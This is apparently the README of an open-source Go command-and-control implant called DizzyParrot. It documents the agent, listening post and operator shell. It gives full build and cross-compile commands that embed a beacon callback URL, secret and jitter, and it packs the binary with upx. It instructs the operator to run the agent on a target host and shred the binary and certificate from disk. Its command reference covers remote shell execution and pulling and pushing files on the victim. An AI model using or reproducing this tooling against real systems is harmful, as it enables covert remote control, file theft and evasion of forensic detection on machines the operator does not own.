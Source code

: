 # DizzyParrot

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

A simple beaconing implant written in Go. DizzyParrot consist of an agent, listening post, and interactive shell. The agent communicates to the LP over HTTP/2 at a specified interval. An agent can be tasked using the interactive shell to pull and push files, and execute commands on the target host. 

![Shell](https://user-images.githubusercontent.com/10587919/78269929-34740c80-74d8-11ea-94cf-ecdc0d130dbe.png)

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Start Postgres and create user
```
# Command is provided after installing dependencies
pg_ctlcluster 11 main start

# Verify
pg_ctlcluster 11 main status

# Change to postgres user
su - postgres

# Create user
createuser --interactive --pwprompt
# Enter name of role to add: dizzy
# Enter password for new role: dizzy
# Enter it again: dizzy
# Shall the new role be a superuser? (y/n) y

# Exit from postgres user
exit
```

#### Install go
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linux-amd64.tar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Clone the repo using git and get go dependencies 
```
# Clone repo
git clone https://github.com/af001/DizzyParrot.git

# Go dependencies 
go get gopkg.in/yaml.v2
go get golang.org/x/net/http2
go get github.com/lib/pq
go get github.com/c-bata/go-prompt
go get github.com/common-nighthawk/go-figure
go get github.com/jedib0t/go-pretty/table
```

#### Build LP and shell
```
cd server; go build server.go
cd shell; go build shell.go
```

#### Build agent 
```
# Build for host Linux
go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# Cross-compile mips
GOOS=linux GOARCH=mips go build -ldflags "-s -w -X main.name=A10000 -X main.secret=dirtyparrot -X main.callback=300 -X main.jitter=60 -X main.url=https://localhost:8443/portal/details"

# To compress binaries to a smaller size, use upx
upx --brute client
```

#### Start the LP
```
# Generate cert
cd server; mkdir cert
openssl req -newkey rsa:2048 -nodes -keyout cert/server.key -x509 -days 365 -out cert/server.crt

# Start the LP
./server -c cert/config.yml

# To use a screen session
screen -S DIZZY_LP
./server -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_LP
```

#### Start the shell
```
cd shell
./shell -c config.yml

# To use a screen session
screen -S DIZZY_SHELL
./shell -c config.yml

# To background screen
ctrl+a d

# To interact with screen session
screen -ls
screen -x DIZZY_SHELL
```

#### Execute agent on target host

If not using real certs, the client requieres the server certificate upon execution. After execution, the binary and certificate can be removed from disk. 

```
# Start agent
./client -c server.crt &

# To run in memory 
shred -fuz client server.crt
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# View tables
\dt
```
#### Basic Usage

```
agents               : List available agents.
agent <agent name>   : Tag into an agent for interaction. Tag without a name brings the user back to home and lists agents. 
task <command>       : Task the agent to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged               : Show jobs in the queue and are staged to be deployed to the agent.
deploy               : Move staged jobs into the deployed queue. Agent will pick these tasks up.
revoke               : Remove deployed jobs. 
revoke restage       : Removes deployed jobs and places in the staged queue to allow for additional commands to be added.
flush                : Flush the commands in the staged queue.
set callback <int>   : Task the agent to modify its callback. In seconds.
set jitter <int>     : Task the agent to offset the callback (+/-) by x seconds. In seconds.
kill                 : Kill the agent process.
job <job_id>         : Show the output from a job
jobs                 : List complete and deployed jobs.
pull <rfile>         : Pull a file from the target machine.
push <lfile> <rfile> : Push a local file to the target machine
forget <agent_name>  : Remove an agent from the database. 
dump agent           : Not yet implemented
dump job             : Not yet implemented
```

#### Todo
 
1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database. Based on bool value. Preserve pull path.

3. Add shell feature to dump agent results and commands to disk.

4. Add shell command to wipe database.
